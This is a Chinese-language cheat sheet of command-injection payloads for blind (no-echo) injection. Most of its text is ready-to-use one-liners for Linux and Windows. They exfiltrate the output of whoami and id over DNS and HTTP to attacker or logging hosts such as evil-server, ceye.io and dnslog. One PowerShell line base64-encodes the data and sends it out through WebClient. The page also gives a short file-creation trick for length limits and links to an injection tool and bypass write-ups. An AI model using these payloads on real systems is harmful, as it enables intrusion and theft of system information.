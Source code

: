 ### 无回显  

- 弹 shell  
- DNS 外带数据  

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

- HTTP 外带  

```
# linux
curl http://evil-server/`whoami`
wget http://evil-server/$(whoami)
curl xxxx.ceye.io/`whoami`
curl http://xxxx.ceye.io/$(id|base64)
ping -c 1 `whoami`.xxxx.ceye.io

# windows
http:
for /F %x in ('whoami') do start http://xxx.ceye.io/%x
dns请求：
获取计算机名：for /F "delims=" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info
获取用户名：for /F "delims= tokens=2" %i in ('whoami') do ping -n 1 %i.xxx.dnslog.info

for /F %x in ('whoami') do powershell $a=[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('%x'));$b=New-Object System.Net.WebClient;$b.DownloadString('http://xxx.ceye.io/'+$a);

```

### 长度限制  

- 文件构造（参考橘子那个 hitcon）  

```
>w
将会创建一个名字为 w 的空文件。

```

工具  

- [shelling](https://github.com/ewilded/shelling)  

## 参考链接  

[巧用命令注入的 N 种姿势](https://mp.weixin.qq.com/s/Hm6TiLHiAygrJr-MGRq9Mw)  

[命令执行的一些绕过技巧](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)